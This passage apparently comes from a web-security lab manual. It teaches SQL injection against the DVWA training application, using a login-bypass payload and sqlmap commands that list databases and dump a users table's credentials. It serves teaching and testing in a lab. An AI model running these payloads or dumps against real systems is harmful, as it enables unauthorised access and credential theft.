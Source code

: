 - You will need to show that a token mismatch prevents the PoC. Document the token name (e.g., `user_token`) and show where it is included in forms and validated on the server.

---

# Experiment 7 — SQL Injection (Manual + sqlmap) (Expanded)

**Objective:** Demonstrate manual SQL payloads and use `sqlmap` to enumerate DB schema and dump sample data in the lab.

### Manual testing first (why?)

Always try a manual payload so you understand where injection occurs. For example in DVWA SQLi (Low), try username field payload:

```
' OR '1'='1' --
```

If the login succeeds or the response changes to show more rows, it indicates a classic Boolean-based injection.

### Using sqlmap safely (step-by-step)

1. In Burp, find the vulnerable POST request. Right-click → `Copy to file` and save as `tools/req_sqli.txt`.
2. Run sqlmap with conservative options:

```bash
sqlmap -r tools/req_sqli.txt --batch --level=2 --risk=1 --threads=2 --output-dir=evidence/sqlmap_basic
```

- `--level` controls test depth; `--risk` controls payload risk level; keep low on lab exercises.

3. To list DBs and tables:

```bash
sqlmap -r tools/req_sqli.txt --batch --dbs
sqlmap -r tools/req_sqli.txt -D dvwa --tables
```

4. To dump specific columns (sanitized for report):

```bash
sqlmap -r tools/req_sqli.txt -D dvwa -T users -C user,password --dump
```

**Important:** Treat dumped credentials as lab data. Redact or hash them if required by your institution.

### Explaining output

- Save sqlmap `.log` and the `dump` files in `evidence/sqlmap/` and reference these in the report. Explain the injection type (error-based, boolean-based, union-based, time-based) and why the payload works.
